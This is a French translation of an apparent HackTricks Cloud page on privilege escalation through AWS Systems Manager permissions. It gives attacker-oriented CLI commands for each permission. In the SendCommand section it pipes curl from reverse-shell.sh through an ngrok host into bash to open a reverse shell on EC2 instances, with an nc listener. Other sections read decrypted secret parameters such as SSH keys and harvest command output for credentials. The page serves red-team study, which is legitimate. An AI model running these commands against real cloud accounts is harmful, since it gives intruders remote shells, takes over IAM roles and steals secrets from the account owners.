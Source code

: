 # AWS - Élévation de privilèges SSM

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## SSM

Pour plus d'informations sur SSM, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaquant ayant l'autorisation **`ssm:SendCommand`** peut **exécuter des commandes dans des instances** exécutant l'Agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Dans le cas où vous utilisez cette technique pour escalader les privilèges à l'intérieur d'une instance EC2 déjà compromise, vous pourriez simplement capturer le shell inversé localement avec :
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

### `ssm:StartSession`

Un attaquant avec la permission **`ssm:StartSession`** peut **démarrer une session similaire à SSH dans les instances** exécutant l'Agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Pour commencer une session, vous devez avoir installé le plugin **SessionManagerPlugin** : [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM actifs.

#### Élévation de privilèges vers ECS

Lorsque les **tâches ECS** s'exécutent avec **`ExecuteCommand` activé**, les utilisateurs disposant des autorisations suffisantes peuvent utiliser `ecs execute-command` pour **exécuter une commande** à l'intérieur du conteneur.\
Selon [**la documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), cela est réalisé en créant un canal sécurisé entre l'appareil que vous utilisez pour initier la commande "_exec_" et le conteneur cible avec SSM Session Manager. (Le plugin SSM Session Manager est nécessaire pour que cela fonctionne)\
Par conséquent, les utilisateurs disposant de `ssm:StartSession` pourront **obtenir un shell à l'intérieur des tâches ECS** avec cette option activée en exécutant simplement :
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impact potentiel :** Élévation de privilèges directe vers les rôles `IAM` d'ECS attachés aux tâches en cours d'exécution avec `ExecuteCommand` activé.

### `ssm:ResumeSession`

Un attaquant avec la permission **`ssm:ResumeSession`** peut re-**démarrer une session similaire à SSH dans les instances** exécutant l'Agent Amazon SSM avec un état de session SSM **déconnecté** et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution et des sessions déconnectées.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaquant avec les autorisations mentionnées pourra lister les **paramètres SSM** et les **lire en clair**. Dans ces paramètres, vous pouvez fréquemment **trouver des informations sensibles** telles que des clés SSH ou des clés API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des paramètres.

### `ssm:ListCommands`

Un attaquant avec cette autorisation peut lister toutes les **commandes** envoyées et espérons trouver des **informations sensibles** à leur sujet.
```
aws ssm list-commands
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des lignes de commande.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaquant avec ces autorisations peut lister toutes les **commandes** envoyées et **lire la sortie** générée, en espérant trouver des **informations sensibles** à ce sujet.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impact potentiel :** Trouver des informations sensibles dans la sortie des lignes de commande.

### Codebuild

Vous pouvez également utiliser SSM pour accéder à un projet codebuild en cours de construction :

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>

